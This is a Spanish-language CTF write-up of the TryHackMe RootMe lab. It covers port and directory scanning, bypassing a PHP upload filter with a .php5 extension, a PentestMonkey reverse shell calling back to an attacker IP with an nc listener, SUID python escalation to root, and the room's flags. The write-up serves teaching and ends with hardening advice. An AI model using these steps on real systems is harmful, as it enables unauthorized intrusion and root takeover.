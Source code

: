 # **Explotación de Máquina RootMe (TryHackMe)**

![Nivel: Fácil](https://img.shields.io/badge/Nivel-Fácil-green) ![Tema: File Upload + Privilege Escalation](https://img.shields.io/badge/Tema-File%20Upload%20%2B%20PrivEsc-blue)

## **Descripción**
Este repositorio documenta la explotación completa de la máquina **RootMe** de TryHackMe, que presenta:
1. Vulnerabilidad de subida de archivos sin validación adecuada
2. Bypass de restricciones de extensión PHP
3. Escalada de privilegios mediante binario SUID de Python

**Tiempo estimado**: 25-40 minutos  
**Dificultad**: Fácil  
**Sistema operativo**: Linux (Ubuntu)

## **Índice**
1. [Reconocimiento](#reconocimiento)
2. [Explotación Web](#explotación-web)
3. [Shell Inversa](#shell-inversa)
4. [Escalada de Privilegios](#escalada-de-privilegios)
5. [Conclusión](#conclusión)

## **Reconocimiento**

### 1. Escaneo Inicial
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -Pn 10.10.80.12 -oN escaneo
```

**Hallazgos clave**:
- **Puerto 22/tcp**: SSH - OpenSSH 7.6p1 Ubuntu
- **Puerto 80/tcp**: HTTP - Apache httpd 2.4.29

### 2. Descubrimiento de Directorios Web
```bash
gobuster dir -u http://10.10.80.12 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html -t 50
```

**Directorios encontrados**:
- `/panel/` - Directorio de subida de archivos
- `/uploads/` - Directorio de archivos subidos
- `/css/`, `/js/`, `/images/` - Directorios estáticos

## **Explotación Web**

### 3. Análisis del Panel de Subida
- Acceso a `http://10.10.80.12/panel/`
- **Restricción identificada**: Bloqueo de extensiones `.php`
- **Bypass**: Uso de extensión alternativa `.php5`

### 4. Preparación del Payload
**Reverse Shell PHP (PentestMonkey)**:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv php-reverse-shell.php shell.php5
```

**Modificaciones**:
- Cambiar `$ip = '10.10.15.65';` (IP atacante)
- Cambiar `$port = 4444;` (Puerto escucha)

### 5. Subida y Ejecución
- Subir `shell.php5` al panel en `/panel/`
- Acceder al archivo en `http://10.10.80.12/uploads/shell.php5`

## **Shell Inversa**

### 6. Establecimiento de Conexión
**En máquina atacante**:
```bash
nc -lvnp 4444
```

**Resultado**: Shell obtenida como usuario `www-data`

### 7. Flag de Usuario
```bash
find / -name user.txt 2>/dev/null
cat /var/www/user.txt
```
- **Flag user.txt**: `THM{y0u_g0t_a_sh3ll}`

## **Escalada de Privilegios**

### 8. Enumeración de Binarios SUID
```bash
find / -perm -4000 2>/dev/null
```

**Binarios interesantes**:
- `/usr/bin/python` (SUID bit set)

### 9. Explotación con Python
```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

**Resultado**: Shell como **root** obtenida

### 10. Flag de Root
```bash
find / -name root.txt 2>/dev/null
cat /root/root.txt
```
- **Flag root.txt**: `THM{pr1v1l3g3_3sc4l4t10n}`

## **Conclusión**

### Vulnerabilidades Críticas
1. **Validación insuficiente en subida de archivos**
2. **Permisos SUID peligrosos en Python**
3. **Exposición de directorio `/uploads/`**

### Hardening Recomendado
- Implementar validación estricta de tipos de archivo
- Deshabilitar ejecución de scripts en directorios de upload
- Revisar y eliminar permisos SUID innecesarios
- Implementar WAF para prevenir ataques de file upload

### Técnicas Aplicadas
1. **Fuzzing de directorios** con Gobuster
2. **Bypass de extensiones** (.php5)
3. **Reverse Shell PHP**
4. **Escalada mediante SUID exploitation**

> ⚠️ **Aviso Legal**: Solo para uso en entornos controlados con permiso explícito.

---

**Herramientas utilizadas**:
- Nmap
- Gobuster
- Netcat
- Python

**Referencias**:
- [TryHackMe - RootMe Room](https://tryhackme.com/room/rootme)
- [GTFOBins - Python SUID](https://gtfobins.github.io/gtfobins/python/#suid)
- [PentestMonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)

**Tags**: `#TryHackMe #RootMe #FileUpload #SUID #Python #PrivEsc #CTF`

---

## **Lecciones Aprendidas**
- Las extensiones alternativas (.php5, .phtml) pueden bypassear filtros básicos
- Los binarios con SUID son vectores comunes de escalada
- La enumeración metódica es clave en CTFs
- Siempre revisar permisos de archivos y directorios

**Plataforma**: TryHackMe
